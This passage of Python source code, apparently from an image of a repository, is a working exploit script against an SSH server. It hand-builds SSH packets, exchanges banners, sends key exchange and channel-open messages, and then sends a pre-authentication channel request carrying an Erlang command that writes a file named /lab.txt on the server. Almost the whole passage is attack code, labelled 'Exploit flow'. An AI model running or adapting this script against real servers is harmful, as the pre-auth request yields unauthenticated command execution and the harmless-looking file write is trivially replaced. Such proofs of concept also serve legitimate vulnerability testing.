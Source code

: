 ```python
        + struct.pack(">I", 0)  # first_kex_packet_follows, reserved
    )


# Pads a packet to match SSH framing
def pad_packet(payload, block_size=8):
    min_padding = 4
    padding_len = block_size - ((len(payload) + 5) % block_size)
    if padding_len < min_padding:
        padding_len += block_size
    return (
        struct.pack(">I", len(payload) + 1 + padding_len)
        + bytes([padding_len])
        + payload
        + bytes([0] * padding_len)
    )


# === Exploit flow ===
try:
    with socket.create_connection((HOST, PORT), timeout=5) as s:
        print("[*] Connecting to SSH server...")

        # 1. Banner exchange
        s.sendall(b"SSH-2.0-OpenSSH_8.9\r\n")
        banner = s.recv(1024)
        print(f"[+] Received banner: {banner.strip().decode(errors='ignore')}")
        time.sleep(0.5)  # Small delay between packets

        # 2. Send SSH_MSG_KEXINIT
        print("[*] Sending SSH_MSG_KEXINIT...")
        kex_packet = build_kexinit()
        s.sendall(pad_packet(kex_packet))
        time.sleep(0.5)  # Small delay between packets

        # 3. Send SSH_MSG_CHANNEL_OPEN
        print("[*] Sending SSH_MSG_CHANNEL_OPEN...")
        chan_open = build_channel_open()
        s.sendall(pad_packet(chan_open))
        time.sleep(0.5)  # Small delay between packets

        # 4. Send SSH_MSG_CHANNEL_REQUEST (pre-auth!)
        print("[*] Sending SSH_MSG_CHANNEL_REQUEST (pre-auth)...")
        chan_req = build_channel_request(
            command='file:write_file("/lab.txt", <<"pwned">>).'
        )
        s.sendall(pad_packet(chan_req))

        print(
            "[✓] Exploit sent! If the server is vulnerable, it should have written to /lab.txt."
        )

        # Try to receive any response (might get a protocol error or disconnect)
        try:
            response = s.recv(1024)
            print(f"[+] Received response: {response.hex()}")
        except socket.timeout:
            print("[*] No response within timeout period (which is expected)")

except Exception as e:
    print(f"[!] Error: {e}")
```
